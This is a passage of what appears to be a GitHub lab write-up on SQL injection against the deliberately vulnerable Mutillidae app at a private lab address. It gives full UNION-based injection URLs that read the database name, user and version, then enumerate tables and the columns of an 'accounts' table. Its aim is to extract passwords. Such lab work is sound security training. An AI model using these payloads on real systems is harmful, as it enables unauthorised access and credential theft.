  ![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/42e6a910-9904-4297-a64d-5ceca4321ff2)

 As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

 ![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/c335915c-3766-4431-ad43-b7e975cd5059)

 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/0eb145ed-0a75-4d46-8c51-48d5708191e1)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.

In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:

union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-
info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/3a57e755-40da-4d54-9dba-b7c6cd1ace7f)

The url once executed will  retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/Karthikeyan21001828/sqlinjection/assets/93427303/5c9a4fa2-a135-4474-8af4-0eeb30daa628)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-
info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
